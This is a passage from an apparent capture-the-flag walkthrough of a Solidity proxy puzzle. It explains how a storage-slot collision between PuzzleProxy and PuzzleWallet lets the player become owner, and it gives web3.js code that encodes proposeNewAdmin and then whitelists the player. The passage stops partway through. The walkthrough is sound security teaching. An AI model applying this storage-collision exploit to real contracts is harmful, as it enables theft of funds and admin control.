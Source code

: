 Note that in proxy pattern any call/transaction sent does not directly go to the logic contract (`PuzzleWallet` here), but it is actually **delegated** to logic contract inside proxy contract (`PuzzleProxy` here) through `delegatecall` method.

Since, `delegatecall` is context preserving, the context is taken from `PuzzleProxy`. Meaning, any state read or write in storage would happen in `PuzzleProxy` at a corresponding slot, instead of `PuzzleWallet`.

Compare the storage variables at slots:
```
slot | PuzzleWallet  -  PuzzleProxy
----------------------------------
 0   |   owner      <-  pendingAdmin
 1   |   maxBalance <-  admin
 2   |           . 
 3   |           .
```
Accordingly, any write to `pendingAdmin` in `PuzzleProxy` would be reflected by `owner` in `PuzzleWallet` because they are at same storage slot, 0!

And that means if we set `pendingAdmin` to `player` in `PuzzleProxy` (through `proposeNewAdmin` method), `player` is automatically `owner` in `PuzzleWallet`! That's exactly what we'll do. Although `contract` instance provided `web3js` API, doesn't expose the `proposeNewAdmin` method, we can alway encode signature of function call and send transaction to the contract:

```javascript
functionSignature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
}

params = [player]

data = web3.eth.abi.encodeFunctionCall(functionSignature, params)

await web3.eth.sendTransaction({from: player, to: instance, data})
```
`player` is now `owner`. Verify by:
```javascript
await contract.owner() === player

// Output: true
```

Now, since we're `owner` let's whitelist us, `player`:
```javascript
await contract.addToWhitelist(player)
```
